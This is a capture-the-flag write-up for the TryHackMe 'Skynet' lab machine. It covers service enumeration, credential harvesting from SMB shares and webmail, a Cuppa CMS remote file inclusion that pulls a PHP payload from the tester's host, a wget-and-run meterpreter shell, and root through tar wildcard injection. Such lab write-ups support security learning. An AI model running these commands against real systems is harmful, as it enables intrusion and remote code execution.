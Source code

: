 ```yaml
---
title: Skynet WriteUp
description: A vulnerable Terminator themed Linux machine.
tags:
- writeups
- tryhackme
- linux
---
```

## Enumeration

TryHackMe provides very little info so will just jump in.

Initial port scan

```bash
sudo nmap -sV 10.10.59.216
```

Results:
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Of note:

* OpenSSH 7.2 is potentially vulnerable to User enumeration via linux/remote/45939.py
* Webserver on port 80
* Samba shares

### Web Enumeration
Started enumerating web page with
```bash
gobuster dir -u http://10.10.59.216 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```
Output:
```
/admin                (Status: 301) [Size: 312] [--> http://10.10.59.216/admin/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.59.216/css/]  
/js                   (Status: 301) [Size: 309] [--> http://10.10.59.216/js/]   
/config               (Status: 301) [Size: 313] [--> http://10.10.59.216/config/]
/ai                   (Status: 301) [Size: 309] [--> http://10.10.59.216/ai/]    
/squirrelmail         (Status: 301) [Size: 319] [--> http://10.10.59.216/squirrelmail/]
```
Which discovered `/squirrelmail` which was running version 1.4.23

### SMB Enumeration

Enumerated shares with
```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.59.216
```

Of interest are `anonymous` with anonymous read/write and `milesdyson` which we dont have privs for

In the anonymous share was a note `attention.txt` and logs folder
```text
A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson
```

Logs folder contained 3 files log1.txt log2.txt and log3.txt. 2 and 3 were empty but 1 contained a list of passwords.

```text
cyborg007haloterminator
terminator22596
terminator219
terminator20
terminator1989
terminator1988
terminator168
terminator16
terminator143
terminator13
terminator123!@#
terminator1056
terminator101
terminator10
terminator02
terminator00
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

## Webmail Access

Given the private smb share was called `milesdyson` I guessed this might be a username.

I was about to use the password list to password spray the squirrelmail webmail, but when I tried the first password
`cyborg007haloterminator` it worked so I left it there.

The user had 3 emails in the inbox

Email 1
```text
From:  	serenakogan@skynet
Subject:  	
Date:  	Tue, September 17, 2019 3:13 am
To:  	

i can i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i i can i i i everything else . . . . . . . . . . . . . .
balls have a ball to me to me to me to me to me to me to me
i . . . . . . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
you i i i i i everything else . . . . . . . . . . . . . .
balls have 0 to me to me to me to me to me to me to me to me to
you i i i everything else . . . . . . . . . . . . . .
balls have zero to me to me to me to me to me to me to me to me to
```

Email 2
```text
From:  	serenakogan@skynet
Subject:  	
Date:  	Tue, September 17, 2019 3:16 am
To:

01100010 01100001 01101100 01101100 01110011 00100000 01101000 01100001 01110110
01100101 00100000 01111010 01100101 01110010 01101111 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111 00100000 01101101 01100101 00100000 01110100 01101111
00100000 01101101 01100101 00100000 01110100 01101111 00100000 01101101 01100101
00100000 01110100 01101111
```

Email 3
```text
From:  	skynet@skynet
Subject:  	Samba Password reset
Date:  	Tue, September 17, 2019 10:10 pm
To:  	

We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

Using this password to access the milesdyson share over SMB worked (username `milesdyson`)

This revealed a folder with multiple PDFs about AI/ML and a subdirectory called notes.

Given an HTTP folder called /ai was found by gobuster, I checked if it was serving this directory by going to /ai/notes in the browser.

This gave an HTTP redirect to /ai/notes/ and gives 403 which is different behaviour from say /ai/something which just gives 404 

The notes directory contained a file called `important.txt` which hinted at a beta CMS located at `/45kra24zxs28v3yd`

So I started gobustering the location which found `/administrator` which showed that it was running `cuppa cms`.

Some googling found a file inclusion vulnerability in cuppa cms (https://www.exploit-db.com/exploits/25971)

Used msfvenom to make a meterpreter shell and staged with a PHP reverse shell.

```bash
curl http://10.10.59.216/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.32.196:8000/payload.php?
```
In shell
```bash
wget http://10.4.32.196:8000/shell.elf -O /tmp/shell
chmod +x /tmp/shell
/tmp/shell &
```

Used LinEnum.sh to search for issues https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh

Found crontab runs every minute
```text
/home/milesdyson/backups/backup.sh
```

**backup.sh** contents
```bash
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
This is vulnerable to wildcard hijacking (https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

To exploit, create a file `/var/www/html/script.sh` with
```bash
#!/bin/bash
/tmp/shell &
```
From meterpreter open a shell and run
```bash
cd /var/www/html
touch './--checkpoint-action=exec=bash script.sh'
touch './--checkpoint=1'
```
Enjoy the root shell!
```bash
cat /root/root.txt
```
